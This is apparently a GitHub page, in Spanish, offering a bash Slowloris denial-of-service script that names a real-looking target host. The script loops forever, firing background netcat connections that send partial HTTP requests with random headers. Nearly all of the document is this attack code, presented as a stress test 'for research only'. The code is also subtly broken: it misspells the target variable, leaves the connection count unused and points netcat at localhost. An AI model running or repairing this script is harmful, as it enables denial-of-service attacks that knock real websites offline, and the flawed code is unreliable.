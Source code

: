 # slowloris 

Ataque Slowloris de denegacion de servicio con peticiones web 

#!/bin/bash
# Slowloris test de stress
# Solo para fines de investigacion.
# chmod 777 slowloris.sh
# ./slowloris.sh

LHOST=127.0.0.1
LPORT=9991
while true; do
TARJET=web.hackingyseguridad.com
CONNS=99999
INTERVAL=99
echo -e "GET / HTTP/1.1\r\nHost: $TARGET\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Encoding: gzip, deflate\r\nDNT: 1\r\nConnection: keep-alive\r\nCache-Control: no-cache\r\nPragma: no-cache\r\n$RANDOM: $RANDOM\r\n"|nc -i $INTERVAL -w 30000 $LHOST $LPORT  2>/dev/null 1>/dev/null & i=$((i + 1)); done
